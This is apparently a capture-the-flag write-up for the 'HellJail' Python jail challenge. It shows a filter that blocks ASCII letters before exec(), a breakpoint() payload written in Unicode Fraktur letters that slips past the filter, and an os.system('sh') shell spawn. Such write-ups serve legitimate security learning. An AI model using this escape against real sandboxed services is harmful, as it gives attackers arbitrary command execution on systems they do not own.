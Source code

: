 # HellJail
> `-`

## About the Challenge
We have been given a source code like this

```python
#!/usr/bin/env python3

from string import ascii_letters

code = input('> ')

if any(c in ascii_letters for c in code):
    print('You will never leave this place!')
elif any(c in '.:;,-_@"=/%\\' for c in code):
    print('You will never reach this point, but still, you CANNOT leave!')
else:
    exec(code)
```

And we need to escape from the sandbox but we can input any ASCII letter and also some of the special character

![preview](images/preview.png)


## How to Solve?
To solve this problem, we need to convert our payload first to gothic font (Im using this [website](https://yaytext.com/fraktur/)) and here is the payload I used

```
𝔟𝔯𝔢𝔞𝔨𝔭𝔬𝔦𝔫𝔱()
```

And then after enterring Python debugging, i ran this command

```python
import os
os.system('sh')
```

![flag](images/flag.png)

```
DANTE{4b4nd0n_all_h0p3_y3_who_3nter}
```